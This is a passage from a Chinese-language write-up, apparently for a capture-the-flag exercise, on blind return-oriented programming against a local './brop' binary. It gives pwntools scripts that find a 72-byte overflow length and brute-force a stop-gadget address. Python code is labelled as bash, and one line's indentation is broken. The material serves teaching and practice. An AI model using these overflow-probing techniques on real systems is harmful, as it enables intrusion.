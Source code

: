 ```bash
                return i - 1
            else:
                i += 1
        # 栈溢出
        except EOFError:
            p.close()
            print 'Buffer flow length:%d'%(i-1)
            return i - 1

buffer_length = GetBufferLength()
#print buffer_length
```

```bash
[+] Starting local process './brop': pid 45215
[*] Stopped process './brop' (pid 45215)
72
```

缓冲区溢出长度为 72

3、寻找能够返回 main 函数的 gatgets，即 stop\_gatget

```bash
#-*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import LibcSearcher
#context.log_level = 'debug'
#context.arch = 'i386'/'amd64'

##buffer_length = GetBufferLength()
buffer_length = 72

def GetStopAddr(length):
        address = 0x400500
        while 1:
                print(hex(address))
                try:
                        p = process('./brop')
                        p.recvuntil('Do you know password?\n')
                        payload = 'a'*length + p64(address)
                        p.send(payload)
                        output = p.recv()
                        p.close()
                        #未成功返回到 main 函数头部开始执行
                        if not output.startswith('WelCome my friend'):
                                address += 1
                        else:
                            print('stop gadgets = 0x%x' % address)
                                return address
                #触发栈溢出异常
                except EOFError:
                        address += 1
                        p.close()

stop_gadget = GetStopAddr(buffer_length)
```
